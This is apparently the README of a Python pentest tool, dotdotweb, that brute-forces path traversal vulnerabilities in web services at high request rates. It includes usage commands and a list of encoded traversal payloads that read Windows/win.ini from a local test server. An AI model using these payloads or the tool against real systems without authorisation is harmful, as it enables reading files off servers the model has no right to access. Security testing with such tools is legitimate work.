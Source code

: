 dotdotfarm
==========
Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for web services (HTTP) (Alpha version)

Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make **~3K requests per second**

Features
========
- async client for parallel requesting of target (speedup)
- increasing simultaneous connections in the TCP connector (speedup)
- ability to fetch files' content after succeeding payload
- specifying payload in any part of query (url, headers or POST data)

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm
cd dotdotfarm
pip install -r requirements.txt
python setup.py install
```

Usage
=====
```bash
usage: dotdotweb.py [-h] [-o {windows,linux}] [-D DEPTH] [-t TIMEOUT] [-f FILE] [-R] [-fs FS] [-fc FC] [-H HEADERS] [-d DATA]
                    [-m {get,post,put,trace,delete}]
                    url

path traversal identificator & exploit

positional arguments:
  url                   url for testing

options:
  -h, --help            show this help message and exit
  -o {windows,linux}, --os-type {windows,linux}
  -D DEPTH, --depth DEPTH
                        depth of PT searching
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections
  -f FILE, --file FILE  specific file for PT detection
  -R, --print-files     read traversed files
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        specify header for requests
  -d DATA, --data DATA  specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                       [Status: 200, Size: 111]
 ../Windows/win.ini                                                             [Status: 200, Size: 111]
 ..\Windows\win.ini                                                             [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                         [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                       [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                               [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                         [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                           [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                           [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                       [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                       [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                      [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                          [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                              [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                                 [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                         [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                      [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                              [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                      [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                           [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                                 [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                       [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                         [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                         [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- High speed of requests rate can trigger WAF of you target
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- ~~Need of OS specifying~~
